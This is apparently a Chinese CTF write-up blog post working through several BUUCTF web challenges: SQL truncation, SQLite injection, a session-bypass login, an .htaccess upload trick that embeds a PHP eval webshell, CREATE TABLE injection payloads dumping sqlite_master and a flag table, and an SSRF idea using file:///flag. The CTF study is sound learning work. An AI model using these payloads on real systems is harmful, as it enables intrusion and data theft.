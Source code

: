 > 又是早起刷题的一天

## 0x01 [FBCTF2019]Products Manager

- sql约束注入

  在插入数据的时候，如果字段设置了应该插入的字符串长度，那么在添加的时候，如果有超过该长度的，就会被截断

- mysql字符串比较

  `mysql` == `mysql空格空格空格空格空格空格空格空格空格空格                  

![image-20220105080355847](https://img.dem0dem0.top/images/image-20220105080355847.png)

可以看到sql的每个字段都进行了长度限制，并且在最后的位置并没有进行代码上的处理而是直接插入。所以，我们就可以开始操作了。

插入

```
name: facebook                                    11
scert: 123456qwert
des: dviurbwgpbwf
```

然后查询

```
name: facebook
scert: 123456qwert
```

## 0x02[BSidesCF 2019]Sequel

sqlite注入，难度还行，like模糊匹配就可以了。

## 0x03 [b01lers2020]Space Noodles

https://tyaoo.github.io/2020/05/26/BUUCTF-2/

完全没懂这个题目是什么意思，好想类似于之前做的那种签到有趣题，就是猜，到底用哪种请求方法去访问接口，正确了就给你返回。

> 开头先列一下 HTTP 的请求方法，下面会用到

| 序号 | 方法    | 描述                                                         |
| :--- | :------ | :----------------------------------------------------------- |
| 1    | GET     | 请求指定的页面信息，并返回实体主体。                         |
| 2    | HEAD    | 类似于 GET 请求，只不过返回的响应中没有具体的内容，用于获取报头 |
| 3    | POST    | 向指定资源提交数据进行处理请求（例如提交表单或者上传文件）。数据被包含在请求体中。POST 请求可能会导致新的资源的建立和/或已有资源的修改。 |
| 4    | PUT     | 从客户端向服务器传送的数据取代指定的文档的内容。             |
| 5    | DELETE  | 请求服务器删除指定的页面。                                   |
| 6    | CONNECT | HTTP/1.1 协议中预留给能够将连接改为管道方式的代理服务器。    |
| 7    | OPTIONS | 允许客户端查看服务器的性能。                                 |
| 8    | TRACE   | 回显服务器收到的请求，主要用于测试或诊断。                   |
| 9    | PATCH   | 是对 PUT 方法的补充，用来对已知资源进行局部更新 。           |

## 0x04 [极客大挑战 2020]Roamphp2-Myblog

```
assets/img/upload/deb4b643fea6111d2d8cac5475225e87210ca3b4.jpg
```

文件包含拿到源码，登录的时候他是和session存储的密码进行比对的，那么我们如果把session删除并且把password置为空，就可以登录成功了。

## 0x05 [JMCTF 2021]UploadHub

津门CTF题目的复现。

```
<FilesMatch .htaccess>
SetHandler application/x-httpd-php 
Require all granted  
php_flag engine on  
</FilesMatch>

php_value auto_prepend_file .htaccess
#<?php eval($_POST['dem0']);?>
```

这里面的一个点就是 dir标签要晚于file标签执行，所以利用优先级的差距。这个就被接出来了。

但是还是要点名表扬一下NU1L大哥，yyds!

```php
<If "file('/flag')=~ '/flag{/'">
ErrorDocument 404 "wupco"
</If>
```

也就是如果匹配到了，那么就设置404页面中存在wupco，就可以判断是否成功了。`~`表示开启正则匹配。

https://httpd.apache.org/docs/2.4/expr.html

https://httpd.apache.org/docs/2.4/mod/core.html#file

https://httpd.apache.org/docs/2.4/sections.html

## 0x06 [Zer0pts2020]phpNantokaAdmin

> 查看源码

```
$sql = "CREATE TABLE {$table_name} (";
$sql .= "dummy1 TEXT, dummy2 TEXT";
$sql .= ', ';
$sql .= "`$column` $type";
$sql .= ');';
create table {$table_name} (dummy1 TEXT, dummy2 TEXT, $column $type);
```

```
$pdo->query('CREATE TABLE `' . FLAG_TABLE . '` (`' . FLAG_COLUMN . '` TEXT);');
$pdo->query('INSERT INTO `' . FLAG_TABLE . '` VALUES ("' . FLAG . '");');
$pdo->query($sql);
```

![image-20220105102321175](https://img.dem0dem0.top/images/image-20220105102321175.png)

可以看到将列名在页面中显示出来了。所以我们可以考虑在这里进行注入。由于之前，已经做过相关的分析，[]可以用这个来进行注释。

`sqlite_master` yyds!

```
table_name=landv as select sql [&columns[0][name]=abc&columns[0][type]=] from sqlite_master;
```

```
table_name=landv as select flag_2a2d04c3 [&columns[0][name]=abc&columns[0][type]=] from flag_bf1811da;
```

这里两次拼接出来的语句是

```
create table landv as select sql [ (dummy1 TEXT, dummy2 TEXT, abc ] from sqlite_master;);
```

create table landv (a); 最后的语句就是这样，也就是在create中如何来

![image-20220105103011239](https://img.dem0dem0.top/images/image-20220105103011239.png)

## 0x07 [FireshellCTF2020]URL TO PDF

首先是一个输入url的输入框，www.baidu.com

yyds.发现就是渲染当前页面的。然后存储为pdf，然后就啥也不知道了。看看它是使用了什么爬虫引擎。

```
easyPrint 51 (http://weasyprint.org/)
```

这好想不是一个nodejs的库，所以不难直接xss来getshell，考虑一个ssrf单纯的利用。`file:///flag`

然后找所有可以接入到网站中的标签，查看wp发现了l`ink`标签可以。